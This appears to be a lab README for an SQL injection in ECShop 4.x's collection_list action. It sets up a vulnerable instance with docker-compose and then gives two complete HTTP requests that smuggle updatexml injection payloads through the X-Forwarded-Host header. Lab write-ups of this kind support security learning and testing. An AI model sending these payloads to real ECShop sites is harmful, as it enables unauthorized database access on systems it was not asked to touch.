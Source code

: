 # ECShop 4.x `collection_list` SQL injection

References:

- https://mp.weixin.qq.com/s/xHioArEpoAqGlHJPfq3Jiw
- http://foreversong.cn/archives/1556

## Vulnerable environment

Execute following command to start a ECShop 4.0.6:

```
docker-compose up -d
```

After server is started, browse the `http://your-ip:8080` to see the installation wizard. Follow the manual, fill in the database address as `mysql`, username and password as `root` and `root`.

## Exploit

The principle of this vulnerability is similar to [xianzhi-2017-02-82239600](https://github.com/vulhub/vulhub/tree/master/ecshop/xianzhi-2017-02-82239600)，arbitrary `insert_` function could be utilized to leverage the SQL injection.

There are multiple `insert_` functions that can be utilizaed. For example, the `insert_user_account`:

```
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close


```

![](1.png)

Notice that you should log in as a normal user first.

Use `insert_pay_log` as a POC:

```
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close


```

![](2.png)
